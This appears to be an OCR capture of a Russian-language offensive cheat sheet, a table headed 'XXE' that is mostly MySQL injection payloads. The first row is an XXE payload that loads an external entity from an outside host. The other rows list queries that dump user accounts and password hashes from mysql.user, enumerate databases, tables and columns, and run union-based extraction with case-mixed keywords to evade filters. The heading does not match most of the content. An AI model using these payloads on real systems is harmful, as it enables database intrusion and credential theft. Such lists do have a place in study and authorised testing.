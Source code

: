 ## XXE
|Команда|Код|
|----------------|-------------------------------|
|Обычный xxe   | <?xml version="1.0" ?><br><!DOCTYPE r [<br><!ELEMENT r ANY ><br><!ENTITY sp SYSTEM<br>"http://x.x.x.x:443/test.txt"> ]><br><r>&sp;</r>|   
|Получение версии | SELECT VERSION();<br>SELECT @@VERSION;<br>SELECT @@GLOBAL.VERSION;|   
|Получение информации о пользователе | SELECT user()<br>SELECT current_user()<br>SELECT system_user()<br>SELECT session_user()<br>SELECT user,password FROM mysql.user;|   
|Получение хэшей паролей |SELECT host, user, password FROM mysql.user;|   
|Получение текущей базы данных | SELECT database()<br>SELECT db_name();<br>SELECT database();<br>SELECT schema_name FROM<br>information_schema.schemata;|   
|Вывод списка баз данных  |SELECT schema_name FROM information_schema.schemata;<br>SELECT distinct(db) FROM mysql.db |   
|Вывод списка колонок  |SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’<br>SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename'; |   
|Вывод таблиц  | SELECT table_name FROM information_schema.tables;<br>SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’|
|Поиск имени таблицы по колонкам, содержащимся в ней | SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’;|
|Получение имени хоста |SELECT @@hostname; |
|Union based  |UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name, 0x7c)+fRoM+information_schema.schemata<br>UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name, 0x7C)+fRoM+information_schema.tables+ wHeRe+table_schema=…<br>UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name, 0x7C)+fRoM+information_schema.columns+ wHeRe+table_name=…<br>UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM +.. |
| | |


<br>
